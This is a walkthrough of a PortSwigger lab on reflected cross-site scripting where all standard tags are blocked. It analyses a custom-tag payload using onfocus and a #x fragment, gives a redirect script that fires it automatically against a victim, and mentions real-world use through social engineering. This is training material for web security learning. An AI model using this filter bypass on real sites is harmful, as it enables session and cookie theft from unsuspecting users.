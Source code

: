 ## 1️⃣ General Information

|Element|Details|
|---|---|
|**Lab Link**|[HTML context with all standard tags blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)|
|**Solution Date**|2 / 5 / 2025|
|**Vulnerability Type**|Reflected Cross-Site Scripting (XSS)|

---

## 🔰 Lab Description

- This lab blocks the use of all standard HTML elements (standard tags) like `<script>`, `<img>`, etc.
    
- Only **custom HTML elements (custom tags)** are allowed.
    
- The goal is to execute an XSS attack that displays `alert(document.cookie)` **automatically** without user interaction.
    

---

## 2️⃣ Understanding the Lab Scenario

- The website contains a **search** box, and when a word is entered, it is displayed within the results page.

    ![[Screenshot 2025-05-02 151705.png]]
- Any input is displayed within the page without proper escaping.
    
- However, the filter blocks all standard tags, forcing us to use a **custom tag**.

    ![[Screenshot 2025-05-02 153527.png]]

---

## ❓ What is a Custom Tag?

- It's a non-standard HTML element, also known as a **custom element**, used within Web Components.
    
- Its name must contain a **dash `-`** like: `<my-element>`, to avoid conflicts with native HTML elements.
    
- It can carry attributes and events just like any other HTML element.
    

🧪 **Example:**

```html
<xss id="x" tabindex="1" onfocus="alert(document.cookie)">#x</xss>
```

---

## 3️⃣ Payload Analysis

```html
<xss id="x" tabindex="1" onfocus="alert(document.cookie)">#x</xss>
```

|Part|Explanation|
|---|---|
|`<xss>`|Unfiltered custom element.|
|`id="x"`|Used to access the element via fragment (`#x`).|
|`tabindex="1"`|Makes the element focusable.|
|`onfocus="alert(...)"`|Code executes when the element receives focus.|
|`#x`|Text displayed inside the element, helping it appear within the page.|

---

## 4️⃣ Automatic Code Execution Mechanism

When visiting a URL containing:

```txt
#x
```

The browser automatically:

1. Searches for the element with `id="x"`.
    
2. Performs an **automatic focus** on it.
    
3. Since the element contains `onfocus=alert(...)` → the code executes immediately.
    

✅ **Result:** XSS is triggered without any victim interaction.

---

## 5️⃣ Complete Code for Automatic Execution

```html
<script>
location = "https://TARGET-LAB/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x"
</script>
```

### 🔍 Code Explanation:

|Element|Explanation|
|---|---|
|`<script>`|JavaScript element that executes immediately when the page loads.|
|`location =`|Automatically redirects the browser to a URL containing the payload.|
|`?search=...`|The vulnerable parameter that displays its contents within the page without escaping.|
|`#x`|Fragment that directs the browser to the element with `id="x"`, giving it focus, which triggers `onfocus`.|

---

## 6️⃣ Why Use `location` in a Separate Script?

- Some labs require the XSS to be executed **in the full context of the victim**.
    
- A redirect page containing the previous script is created.
    
- When the victim visits the page, they are automatically redirected to the vulnerable URL and the code executes.
    

---

## 7️⃣ Security Benefits of This Method

- **Bypasses filters** that block elements like `<script>`, `<img>`, `onerror`, etc.
    
- **Simple** and can be exploited even if protection only relies on blocking standard tags.
    
- Can be used in **real** scenarios if the user visits a controlled link (social engineering).
    

---

## ✅ Quick Summary

|Element|Function|
|---|---|
|`<xss>`|Unfiltered custom element.|
|`id="x"`|To identify the element via `#x`.|
|`tabindex=1`|Makes the element focusable.|
|`onfocus=...`|Triggers code when the element receives focus.|
|`#x`|Forces the browser to automatically focus on the element.|
|`location=`|Automatically redirects the user to the vulnerable URL.| 